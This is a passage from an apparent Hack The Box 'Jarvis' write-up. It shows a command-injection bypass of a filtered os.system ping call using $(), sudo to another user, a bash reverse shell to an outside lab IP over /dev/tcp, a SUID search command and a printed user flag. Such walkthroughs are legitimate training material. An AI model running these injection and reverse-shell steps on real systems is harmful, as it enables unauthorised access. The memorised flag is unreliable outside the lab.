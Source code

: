 Let's read the source code for ***[simpler.py](https://gist.github.com/d0n601/270adf14cca07f438d3564ec3333f84c)***. The function that jumps out as exploitable is `exec_ping()`, since it directly runs user input.

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```
Full source for ***[simpler.py](https://gist.github.com/d0n601/270adf14cca07f438d3564ec3333f84c)***

The function filters certain commands to prevent us from injecting naughty things into it. It does not, however, filter out the `$` character which means we can encapsulate a bash command.

>  A bash command can then be encapsulated using the $()
     technique.
     
**Source:** [PacketStorm](https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html)


Even though we are the `www-data` user, we're able to execute `simpler.py` as the `pepper` like such,

```console
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper ./simpler.py -p
```

Enter `$(/bin/bash)` into the prompt for the `-p` command to spawn a shell as the `pepper` user. What was odd is that this new shell did not return anything to the screen. Meaning commands like `ls`, `pwd`, and `cat` returned nothing. Perhaps someone else could explain why this was for me? 

Anyway, we can spawn another reverse shell as the `pepper` user now though via `bash -i >& /dev/tcp/10.10.14.61/6666 0>&1`. With this shell we can grab `cat user.txt`.

![user flag.](/posts/images/hack-the-box-jarvis-writeup/user_flag.png)
**Figure 10:** user flag ***2afa36c4f05b37b34259c93551f5c44f***.


## Root Flag
In order to escalate our privileges from `pepper` to `root`, we first need to check which binaries have the SUID bit flipped, meaning they run as the owner, not the user who started them.

```console
find / -perm -u=s -type f 2>/dev/null
```
The above returns many programs from the `/bin` directory. So lets check up the permissions of the binaries in that directory.

![user flag.](/posts/images/hack-the-box-jarvis-writeup/systemctl_misconfig.png)
**Figure 11:** Look who owns systemctl!

